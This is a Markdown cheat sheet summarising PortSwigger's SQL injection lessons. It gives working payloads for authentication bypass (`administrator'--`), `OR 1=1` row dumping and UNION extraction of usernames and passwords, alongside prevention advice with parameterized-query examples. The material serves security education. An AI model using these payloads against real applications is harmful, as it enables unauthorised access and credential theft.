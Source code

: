 # SQLi Cheatsheet

**Source:** PortsSwigger (summary)

---

### What is SQLi
SQL Injection (SQLi) lets an attacker manipulate SQL queries executed by an application.

---

### Retrieving hidden data
Example request:
```
https://insecure-website.com/products?category=Gifts
```
Original query:
```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```
Injection:
```
https://insecure-website.com/products?category=Gifts'--
```
Becomes:
```sql
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
```
`--` comments out the rest of the query.

Using `OR`:
```
?category=Gifts'+OR+1=1--
```
→ returns all rows (1=1 is always true). Beware with UPDATE/DELETE.

---

### Auth bypass (subverting logic)
If app runs:
```sql
SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'
```
Submitting username `administrator'--` yields:
```sql
SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
```
(password check removed).

---

### UNION to retrieve other tables
Original:
```sql
SELECT name, description FROM products WHERE category = 'Gifts'
```
Inject:
```
' UNION SELECT username, password FROM users--
```
Close the quote, inject `UNION`, comment out remainder.

---

### Blind SQLi
When results aren't returned, use boolean or time-based checks or OAST techniques to detect behavior.

---

## First vs Second-order SQLi
- **First-order:** input directly used in a query.  
- **Second-order:** input stored and later used unsafely in another query.

---

### Enumerating the DB
DBs differ; after finding SQLi, enumerate:
- Version (e.g., Oracle: `SELECT * FROM v$version`)  
- Tables: `SELECT * FROM information_schema.tables`

---

### SQLi in other input formats
Any input parsed into SQL is exploitable: URL params, JSON, XML, headers, cookies, etc.

Example XML encoding:
```xml
<stockCheck>
  <productId>123</productId>
  <storeId>999 &#x53;ELECT * FROM information_schema.tables</storeId>
</stockCheck>
```

---

### Quick tips & payloads
- Close opened quotes before injecting.  
- Use DB comment syntax (`--`, `#`, `/*...*/`).  
- Try `OR 1=1`, `UNION SELECT`, boolean/time payloads.  
- For blind SQLi use time delays or boolean checks.  
- Match column counts/types with `UNION SELECT`.

---

### Prevention (concise)
- Use **parameterized queries / prepared statements** — avoid string concatenation.
```java
// Vulnerable
String query = "SELECT * FROM products WHERE category = '"+ input + "'";
// Safe
PreparedStatement ps = conn.prepareStatement("SELECT * FROM products WHERE category = ?");
ps.setString(1, input);
ResultSet rs = ps.executeQuery();
```
- Whitelist/validate input.  
- Use least-privilege DB accounts.  
- Disable verbose DB errors in production.  
- Consider WAFs and input encoding.

---

### Checklist
- Close quotes, inject, then comment.  
- Try `OR 1=1`, `UNION SELECT`, boolean/time payloads.  
- Enumerate schema via `information_schema`, `v$version`, etc.  
- Only test systems you are authorized to assess.

---

### Useful Resources
- https://portswigger.net/web-security/sql-injection/cheat-sheet
